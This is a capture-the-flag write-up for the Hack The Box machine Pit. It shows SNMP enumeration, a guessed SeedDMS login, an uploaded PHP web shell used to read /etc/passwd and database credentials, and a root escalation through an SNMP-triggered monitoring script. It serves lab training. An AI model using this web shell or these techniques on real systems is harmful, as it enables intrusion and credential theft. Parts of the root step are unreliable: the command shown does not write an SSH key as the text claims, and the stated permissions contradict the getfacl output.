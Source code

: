 ```yaml
---
title: "Hackthebox Pit Writeup"
description: "An writeup for the hackthebox machine called Pit."
date: "2022/02/20"
cover: "cover.png"
color: "green"
---
```


Hello everybody. Here is a writeup of Pit that I made a while ago which I decided to upload here.

## Adding to /etc/hosts

I always like to add the ip to /etc/hosts, because then I don't have to remember the ip anymore.

To add the ip to /etc/hosts: 
Where BOXIP is the box ip
```sh
echo "BOXIP pit.htb" >> /etc/hosts
```

## Information Gathering

First lets check what ports are open with masscan. This command will check all open ports on both udp and tcp on the tun0 virtual adapter. Only downside is that it takes much time.

```
masscan pit.htb -p1-65535,U:1-65535 --rate=500 -e tun0
```


Then I ran a script-scan on the port from masscan
```
nmap -sCV -p 22,80,161,9090 -T4 pit.htb
```

Ports:
```
ports:
22 OpenSSH 8.0 protocol 2.0?
80 http nginx 1.14.1
161 filtered snmp
9090 cockpit? zeus-admin? ssl-cert dms-pit.htb
```

At port 80 there is an unconfigured nginx webserver.
![Nginx image](nginx.png)

At port 9090 there is some kind of CentOs login.
![Centos](centos.png)

Nmap also showed that 9090 had a certificate with the name (dms-pit.htb) which I also added to my /etc/hosts.

http://dms-pit.htb returned a forbidden status code.

![403](nginx403.png)

Since snmp was running on port 161, I tried taking it on a walk with snmpwalk ;)

```
snmpwalk -v2c -c public pit.htb nsExtendObjects
```

Which printed some data:
```
OS:Centos Linux release 8.3.2011

Labeling  MLS/      MLS/

SELinux User    Prefix    MCS Level  MCS Range                      SELinux Roles

guest_u        user      s0        s0                            guest_r
root            user      s0        s0-s0:c0.c1023                staff_r sysadm_r system_r unconfined_r
staff_u        user      s0        s0-s0:c0.c1023                staff_r sysadm_r unconfined_r
sysadm_u        user      s0        s0-s0:c0.c1023                sysadm_r
system_u        user      s0        s0-s0:c0.c1023                system_r unconfined_r
unconfined_u    user      s0        s0-s0:c0.c1023                system_r unconfined_r
user_u          user      s0        s0                            user_r
xguest_u        user      s0        s0                            xguest_r
login

Login Name          SELinux User        MLS/MCS Range        Service

__default__          unconfined_u        s0-s0:c0.c1023      *
michelle            user_u              s0                  *
root                unconfined_u        s0-s0:c0.c1023      *
```

Here we see a user named michelle and its that it's running Centos 8.3.2011.

To get some more information I ran this command:
```
snmpwalk -c public -v 2c pit.htb .1 > file.txt
```

After searching for a while, I saw a /var/www/html directory with seeddms (A free document management system):
```
.1.3.6.1.4.1.2021.9.1.2.2 = STRING: /var/www/html/seeddms51x/seeddms
.1.3.6.1.4.1.2021.9.1.3.1 = STRING: /dev/mapper/cl-root
.1.3.6.1.4.1.2021.9.1.3.2 = STRING: /dev/mapper/cl-seeddms
```

/var/www/html/x is often the root of websites, so I tried visiting http://pit.htb/seeddms51x/seeddms but got a 404.

http://dms-pit.htb/seeddms51x/seeddms didn't return a 404, here is a login panel.

![Seedms login](seedms.png)

Here is a login page there we can input a User ID, a password and a language. I put michelle as User ID (since I found a user called it in the snmpwalk) then tried some basic passwords.
After a while I tried "michelle" as a password and it worked and I'm in :)

By digging arround on the website for a bit I found this from `/Docs/Users`.\
Here it seems like I can upload files.

http://dms-pit.htb/seeddms51x/seeddms/out/out.ViewFolder.php?folderid=8&showtree=1

I created a file named 1.php with this content (from [exploit-db](https://www.exploit-db.com/exploits/47022)) and uploaded it with the "Add Document button"
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

```yml
Name: 1.php
Preset expiration: Does not expire
Local file: (the php file created)
Everything else blank
```

Files in SeedDms are stored in http://dms-pit.htb/seeddms51x/data/1048576/documentid/filename.someextension

The documentId can be found by rightclicking the download button of the uploaded document `?documentid=31` 

Now the file is uploaded and commands can be executed with the cmd parameter http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat+/etc/passwd

![](etc-passwd.png)

I tried to get a reverse shell but it didn't work so I navigated around the system and found `../../../conf/` which contains a `settings.xml` file.

```
http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat ../../../conf/settings.xml
```

The webpage will show a white page. This is because the browser is trying to parse the xml as html. To view the xml go into the `View Page Source` tab.

```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="********" doNotCheckVersion="false">
```

Here is a databse user and a database password.

I could not really access the database from sql cli since its localhost only. I also tried to ssh into michelle with the db password, but no success.
```
ssh michelle@pit.htb
```

Then i decided to try the dbpassword on the pit.htb:9090 login page with `michelle` as username and the db password as password. It worked.

Here is some kinda admin dashboard. On the left there is a Terminal button. I pressed it and now I got user.

```
[michelle@pit ~]$ ls
user.txt
```

## Root
I started by checking the output of snmp again `snmpwalk -c public -v 2c boxip .1 > file.txt` 

I digged arround for some time and found something interesting. `NET-SNMP-EXTEND-MIB`, which is a extension that allows running scripts triggered by snmp. 

```
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

I checked who could execute the `/usr/bin/monitor` in the michelle terminal. And turns out its only the owner, which is root.
```
[michelle@pit /]$ ls -l /usr/bin/monitor
	-rwxr--r-- 1 root root 88 Apr 18 2020 /usr/bin/monitor
```

This is the content of `/usr/bin/monitor`.
It is basically a script that executes all .sh scripts starting with `check` inside `/usr/local/monitoring`
```bash
for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

I ran "ls -ld /usr/local/monitoring" 
```
drwxrwx---+ 2 root root 122 May 14 14:40 /usr/local/monitoring
```
There is a `+`at the end of the permissions, which means michelle has additional ACLs set [(See here)](https://unix.stackexchange.com/a/92072).

I ran `getfacl /usr/local/monitoring/` to get more about it, and saw that michelle has read and execute permissions.
```
[michelle@pit /]$ getfacl /usr/local/monitoring
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx mask::rwx
other::---
```

### Shell
This script will write my public ssh key to `/root/.ssh/authorized_keys` and will allow me to ssh into root. 
```
[michelle@pit monitoring]$ echo 'echo "your-public-ssh-key username@hostname"' > check.sh
```

To trigger the script
```
snmpwalk -m +MY-MIB -v2c -c public pit.htb nsExtendObjects
```

```
ssh root@pit.htb

[root@pit ~]# ls
root.txt
```


